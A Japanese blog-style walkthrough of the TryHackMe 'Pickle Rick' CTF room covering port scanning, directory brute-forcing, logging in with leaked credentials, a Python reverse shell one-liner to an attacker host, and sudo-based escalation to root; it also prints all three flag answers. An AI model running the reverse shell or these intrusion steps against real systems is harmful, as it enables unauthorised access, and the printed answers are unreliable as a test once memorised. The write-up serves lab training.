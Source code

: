 # Pickle Rick | TryHackMe
> A Rick and Morty CTF. Help turn Rick back into a human!

level -> Easy

使ったツール･コマンド
1. nmap
2. gobuster
3. python3
4. netcat

まずはIPを設定しておく

`export IP=machine_ip_adress`

#### Task1, What is the first ingredient that Rick needs?
ピクルスを人間に戻すための素材を見つけるらしい(?
どのポートが空いているのか確認

`nmap -sV -sC $IP`

結果をみると80と22が空いているらしいので80を見に行く
いろいろあるがページのソースを見てみる
丁寧にユーザーネームが書いてある

`Username: R1ckRul3s`

先程のユーザーネームを打つところを探す
gobusterで他のものを探す

`gobuster dir -w common.txt -u http://$IP -x php,html,txt`

robots.txtとportal.phpを見つけた
robots.txtには意味不明な文字列

`Wubbalubbadubdub`

portal.phpはなにかのログイン画面のよう
ユーザーネームはさっきの奴だとして、パスワードらしきもの見つからなかったのでrobots.txtの文字列をパスワード代わりに使ってみる

```
username: R1ckRul3s
password: Wubbalubbadubdub
```

初見でこれがパスワードってわかった人凄すぎる(はじめは知らんかった
さっそくページのソースを見てみる
意味深なBase64を発見

` Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==`

これは全く関係ないが気になる人は7回重ねてデコードしてみるといい(まじでおすすめ
とりあえずリバースシェルを試してみる(Python3で
別の端末を開いてnetcatでリッスンしておく
自分でPORTの部分はせていしてね

`nc -lnvp PORT`

下のpython3をCommand Panelに打つ
IPADDRESSとPORTは自分で設定してね

`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IPADDRESS",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'`

つながったらlsしてみる

`ls -la`

Sup3rS3cretPickl3Ingred.txtが気になったのでcatで見てみる

`cat Sup3rS3cretPickl3Ingred.txt`

1つ目の素材をつけた
##### *mr. meeseek hair*

#### Task2, What is the second ingredient in Rick’s potion?
ポーションの素材を探す
とりあえずホームディレクトリに移動して誰がいるのか確認

`cd /home`

rickを見つけたのでrickのホームディレクトリに移動してlsしてみる

`cd rick ; ls -la`

second ingredientsを見つけたのでcatで見てみる

`cat second\ ingredients`

2つ目の素材を見つけた
##### *1 jerry tear*

#### Task3, What is the last and final ingredient?
3つ目を探す
最後なので/rootにあるだろうから権限を昇格する
sudoできるコマンドがあるか調べる

`sudo -l`

(ALL) NOPASSWD: ALLだそうです(勝ちです
とりあえずrootになっておく

`sudo su`

これで/rootに移動できるようになったので移動

`cd /root`

移動できたらlsしてみる

`ls -la`

3rd.txtをcatする

`cat 3rd.txt`

3つ目の素材を見つけた
##### *fleeb juice*

これでこのルームは終わり
このルームで見つけた素材3つでピクルスを人間に戻せるらしいです(?
